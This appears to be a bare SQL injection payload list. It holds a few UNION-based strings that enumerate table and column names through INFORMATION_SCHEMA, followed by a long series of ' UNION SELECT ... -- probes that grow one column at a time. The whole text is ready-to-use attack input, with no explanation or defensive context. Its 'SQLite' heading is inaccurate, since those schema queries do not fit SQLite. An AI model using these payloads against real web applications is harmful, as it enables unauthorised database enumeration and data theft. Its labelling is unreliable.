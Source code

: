 # For SQLi (SQLite)
##### 0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
##### 0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
##### 0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
##### 0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
##### 0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()

' UNION SELECT NULL --

' UNION SELECT 1 --
' UNION SELECT 'a' --
' UNION SELECT 'a', 'b' --
' UNION SELECT 'a', 'b', 'c' --
' UNION SELECT 'a', 'b', 'c', 'd' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --
' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --
